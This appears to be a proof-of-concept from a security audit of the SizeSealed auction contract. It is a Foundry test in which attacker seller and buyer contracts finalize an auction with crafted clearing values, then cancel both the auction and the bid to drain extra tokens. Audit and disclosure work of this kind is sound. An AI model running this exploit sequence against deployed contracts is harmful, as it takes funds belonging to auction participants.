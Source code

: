 Copy the following code in SizeSealed.t.sol

    function testAttack() public {
        quoteToken = new MockERC20("USD Coin", "USDC", 6);
        baseToken = new MockERC20("DAI stablecoin ", "DAI", 18);
        // Bootstrap auction contract with some funds
        baseToken.mint(address(auction), 1e20);
        quoteToken.mint(address(auction), 1e12);
        // Create attacker
        MockSeller attacker_seller  = new MockSeller(address(auction), quoteToken, baseToken);
        MockBuyer attacker_buyer = new MockBuyer(address(auction), quoteToken, baseToken);
        // Print attacker balances
        uint256 balance_quote;
        uint256 balance_base;
        (balance_quote, balance_base) = attacker_seller.balances();
        console.log("Starting seller balance: ", balance_quote, balance_base);
        (balance_quote, balance_base) = attacker_buyer.balances();
        console.log('Starting buyer balance: ', balance_quote, balance_base);
        // Create auction
        uint256 auction_id = attacker_seller.createAuction(
            2**32,  // totalBaseAmount
            2**120, // reserveQuotePerBase
            2**20, // minimumBidQuote
            uint32(block.timestamp), // startTimestamp
            uint32(block.timestamp + 1),  // endTimestamp
            uint32(block.timestamp + 1), // vestingStartTimestamp
            uint32(block.timestamp + 1), // vestingEndTimestamp
            0 // cliffPercent
        );
        // Bid on auction
        attacker_buyer.setAuctionId(auction_id);
        attacker_buyer.bidOnAuction(
            2**30, // baseAmount
            2**30  // quoteAmount
        );
        // Finalize with clearingQuote = clearingBase = 2**128-1
        // Will transfer unsold base amount + matched quote amount
        uint256[] memory bidIndices = new uint[](1);
        bidIndices[0] = 0;
        vm.warp(block.timestamp + 10);
        attacker_seller.finalize(bidIndices, 2**128-1, 2**128-1);
        // Cancel auction
        // Will transfer back sold base amount
        attacker_seller.cancelAuction();
        // Cancel bid
        // Will transfer back to buyer quoteAmount
        attacker_buyer.cancel();
        // Net profit of quoteAmount tokens of quoteToken
        (balance_quote, balance_base) = attacker_seller.balances();
        console.log("End seller balance: ", balance_quote, balance_base);
        (balance_quote, balance_base) = attacker_buyer.balances();
        console.log('End buyer balance: ', balance_quote, balance_base);
    }
